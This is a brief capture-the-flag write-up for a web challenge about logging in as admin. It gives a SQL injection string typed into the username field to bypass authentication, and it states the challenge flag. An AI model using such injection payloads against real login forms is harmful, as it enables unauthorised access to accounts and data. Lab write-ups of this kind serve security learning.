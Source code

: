 ## Question
Can you log in as admin?

## Solution
They had given a site having username and password field.\
Basic WAF injection, you can bypass by writing `username: admin' || '1'='1` and enter any random password, you get the flag.
![Screenshot 2025-01-14 122056](https://github.com/user-attachments/assets/b707c129-1cd7-4004-b421-36aeaec7bdd0)

`flag: grodno{th3r3_1s_n0_w4f_f0r_hum4n_stup1d1ty}`
